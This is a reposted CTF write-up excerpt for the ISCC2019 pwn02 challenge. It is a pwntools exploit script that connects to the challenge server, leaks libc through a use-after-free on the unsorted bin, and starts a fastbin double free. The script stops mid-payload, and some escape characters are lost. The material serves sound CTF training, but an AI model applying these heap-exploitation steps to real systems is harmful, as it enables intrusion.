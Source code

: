 ## Pwn
转载自：安全客-[ISCC2019部分writeup作者：Henu_摇光](https://www.anquanke.com/post/id/179216)
### pwn02

```
from pwn import *
#context.log_level = 'debug'

IP = '39.100.87.24'
PORT = 8102
LOCAL = 0

if LOCAL:
sh = process('./pwn02')
else:
sh = remote(IP, PORT)

def debug(cmd=''):
gdb.attach(sh, cmd)
pause()

def malloc(idx, size, ctx):
sh.recvuntil('&gt; ')
sh.sendline('1 '+str(idx))
sh.sendline(str(size))
sh.sendline(ctx)

def free(idx):
sh.recvuntil('&gt; ')
sh.sendline('2 '+str(idx))

def puts(idx):
sh.recvuntil('&gt; ')
sh.sendline('3 '+str(idx))

malloc(0, 0x58, "aa")
malloc(1, 0x58, "bb")
malloc(2, 0x58, "cc")
malloc(3, 0x80, "dd")
malloc(4, 0x10, "ee")

# unsorted bin leak
free(3)
puts(3)
leak = sh.recvuntil('x7f').ljust(8, "x00")
leak = u64(leak)

libc_base = 0
if LOCAL:
libc_base = leak-3951480
else:
libc_base = leak-3951480

# ubuntu 1604 server
log.success("libc base: %s" %hex(libc_base))

# double free
free(0)
free(1)
free(0)

payload = "f"*80
```